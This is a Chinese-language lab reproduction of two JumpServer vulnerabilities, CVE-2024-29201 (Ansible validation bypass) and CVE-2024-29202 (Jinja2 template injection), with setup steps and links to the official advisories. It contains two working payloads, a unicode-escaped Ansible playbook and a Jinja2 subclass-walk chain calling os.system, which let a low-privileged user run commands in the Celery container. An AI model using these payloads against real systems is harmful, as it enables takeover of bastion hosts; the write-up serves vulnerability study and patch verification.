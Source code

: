 ## JumpServer(CVE-2024-29201)远程代码执行漏洞&(CVE-2024-29202)Jinin2模板注入漏洞

JumpServer 是广受欢迎的开源堡垒机，是符合 4A 规范的专业运维安全审计系统。

CVE-2024-29201 远程代码执行漏洞，该漏洞可绕过 JumpServer 的 Ansible 中的输入验证机制，在 Celery 容器中执行任意代码
CVE-2024-29202 Jinin2 模板注入漏洞，该漏洞是有 JumpServer 的 Ansible 中存在 Jinja2 模板注入，在 Celery 容器中执行任意代码。

##  影响版本
```v3.0.0 <= JumpServer <= v3.10.6```

## 环境搭建

首先下载官方提供的脚本https://resource.fit2cloud.com/jumpserver/jumpserver/releases/latest/download/quick_start.sh，下载后编辑 quick_start.sh，将脚本中的 VERSION 修改为存在漏洞版本，如：V3.10.6。如下图所示：

![image](../../images/8c7db9cf-a5e9-442c-9538-eae5eafd4fcd.png)

等待服务启动，启动完成后访问 http://ip/

![image](../../images/0e374e28-50ba-4905-a7ea-e8257e33a3ec.png)

JumpServer 默认账号密码为 admin/admin

接着进入后台添加资产，具体步骤如下图所示：

![image](../../images/995bf6d3-1d57-47a1-8194-ec4effdea392.png)

添加资产后需要测试是否添加成功，点击资产后面的 更多-测试 进行测试。

资产添加完成后添加用户，如下图所示：

![image](../../images/808c64ab-2daa-4080-b092-c83cb2426004.png)

最后为用户分配一个资产，如下图所示：

![image](../../images/f0ff0aad-8916-4ef1-800d-46b2f1725bb5.png)

至此环境搭建完成。

## CVE-2024-29201

登陆创建的普通用户账号，进入 作业中心-模板管理 添加一个 Playbook

![image](../../images/ba8cb7cd-abcd-4a76-92a9-0c5e8e064888.png)

点击创建的 Playbook 名称，切换到 工作空间，输入以下内容：

```
[{
     "name": "RCE playbook",
     "hosts": "all",
     "tasks": [
       {
         "name": "this runs in Celery container",
         "shell": "id > /tmp/pwnd",
         "\u0064elegate_to": "localhost"
} ],
     "vars": {
     "ansible_\u0063onnection": "local"
     }
}]
```

![image](../../images/b78e8eed-c3a3-46c1-a5d8-ac60d68cb2a6.png)

点击保存。保存完成之后切换到 作业管理 页面，创建一个新的 Playbook 作业

![image](../../images/b22c7efc-22a3-46f9-a275-eec2b3ba1257.png)

playbook 作业详情如下：

![image](../../images/9f727ad1-2f03-497a-8592-42b7f5229561.png)

点击保存并运行作业

![image](../../images/c902efd5-6646-4001-957b-16e414407f75.png)

结果如下

![image](../../images/9169c220-a91d-471f-8bb1-69fd8c4d3fd4.png)

进入 Celery 容器，查看 tmp 目录下是否存在 pwnd 文件

![image](../../images/650bf6b6-d7df-4fb8-9c00-c4d62a37d1d2.png)


## CVE-2024-29202

与 CVE-2024-29201类似，进入 作业中心-模板管理 添加一个 Playbook，在 工作空间 输入的内容为：
```
- name: |
       {% for x in ().__class__.__base__.__subclasses__() %}
         {% if "warning" in x.__name__ %}
           {{
             x()._module.__builtins__["__import__"]("os").system("id > /tmp/pwnd2")
           }}
         {%endif%}
       {%endfor%}
```
添加完成后，同样进入作业管理页面创建并运行 Playbook 作业。运行结果如下

![image](../../images/9b2ded4f-2db9-4910-9831-49305e8eef51.png)

![image](../../images/d44f6e3d-c9bb-4e5f-9fa8-f636c6210b09.png)


## 漏洞来源
- https://wh0am1i.com/2024/03/30/JumpServer-CVE-2024-29201-CVE-2024-29202/
- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-pjpp-cm9x-6rwj
- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-2vvr-vmvx-73ch
